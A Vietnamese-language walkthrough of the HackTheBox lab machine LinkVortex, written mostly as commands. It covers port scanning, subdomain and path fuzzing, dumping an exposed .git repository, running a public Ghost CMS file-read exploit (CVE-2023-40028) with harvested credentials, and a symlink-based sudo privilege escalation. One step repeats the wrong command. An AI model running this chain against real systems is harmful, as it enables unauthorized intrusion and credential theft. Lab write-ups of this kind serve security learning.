 <p align="center"><img src="image/image.png" /></p>

# LinkVortex Hackthebox
## Nmap, 
### Nmap
```
nmap -sCV 10.10.11.47 -oA nmap/output
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 18 09:27:26 2025 -- 1 IP address (1 host up) scanned in 27.67 seconds
</pre>

### Đặt hosts
```
echo "10.10.11.47 linkvortex.htb" | sudo tee -a /etc/hosts
```
<p align="center"><img src="image/image1.png" /></p>

### Lần này, tệp robots.txt có bốn trang mục nhập không được phép. Hãy điều hướng đến http://linkvortex.htb/ghost và xem chúng ta tìm thấy .
Chạy lệnh sau tìm subdomain
```
ffuf -w /usr/share/amass/wordlists/bitquark_subdomains_top100K.txt -H "Host:FUZZ.linkvortex.htb" -u http://linkvortex.htb/ -ic -fs 230
```
### Tìm thấy được domain dev
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
dev [Status: 200, Size: 2538, Words: 670, Lines: 116,Duration: 57ms]
</pre>

### Thêm hosts
```
echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts
```
### Tìm path
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://dev.linkvortex.htb/FUZZ -ic -t 20

```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
.git [Status: 301, Size: 239, Words: 14, Lines: 8, Duration:68ms]
</pre>
### Dùng gitdummper
```
git-dumper http://dev.linkvortex.htb /tmp/gitdump

```
### Check source thấy password

<p align="center"><img src="image/image2.png" /></p>

### vào trang admin bằng tk admin@linkvortex.htb

<p align="center"><img src="image/image3.png" /></p>

### Check version 5.58.0 của Ghost tìm file exploit
```
git clone https://github.com/0xDTC/Ghost-558-Arbitrary-File-Read-CVE-2023-40028.git
```
### Chạy lệnh 
```
./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
```
Tìm file `/var/lib/ghost/config.production.json`
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
"host": "linkvortex.htb",
"port": 587,
"auth": {
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
</pre>

### SSH vào server 
```
ssh bob@linkvortex.htb
```

### Check sudo -l 
```
ssh bob@linkvortex.htb
```

### Tạo file vào tạo symlink
```
ln -sf /abc /dev/shm/test.png
CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /dev/shm/test.png
```
<p align="center"><img src="image/image4.png" /></p>